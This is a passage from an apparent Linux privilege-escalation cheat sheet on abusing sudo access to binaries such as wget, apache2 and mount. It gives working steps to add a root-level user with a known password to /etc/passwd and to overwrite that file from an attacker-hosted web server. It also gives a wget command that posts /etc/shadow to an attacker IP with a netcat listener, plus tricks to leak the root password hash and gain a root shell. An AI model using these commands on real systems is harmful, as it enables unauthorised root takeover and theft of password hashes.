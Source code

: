 Nik:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash

sudo nano  /etc/passwd

now switch user password is: test

su nik

#### Using wget Command

this very cool way which requires a Web Server to download a file. This way I never saw on anywhere. lets explain this.

On Attacker Side.

    First Copy Target’s /etc/passwd file to the attacker machine.
    modify a file and add a user in passwd file which is saved in the previous step to the attacker machine.
    append this line only =>  Nik:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash
    host that passwd file to using any web server.

On Victim Side.

sudo wget http://192.168.56.1:8080/passwd -O /etc/passwd

now switch user password is: test

su nik

Note: if u want to dump file from a server like a root’s ssh key, Shadow file etc.

sudo wget --post-file=/etc/shadow 192.168.56.1:8080

Setup Listener on attacker: nc –lvp 8080
#### Using apache Command

sadly u cant get Shell and Cant edit system files.

but using this u can view system files.

sudo apache2 -f /etc/shadow

The output is like this :

Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration

Sadly no Shell. But you manage to extract root hash now Crack hash in your machine. For Shadow Cracking click here for more.

——————————Additional Commands———————–
#### Using mount command

sudo mount -o bind /bin/bash /bin/mount
sudo mount
#### Using zip command
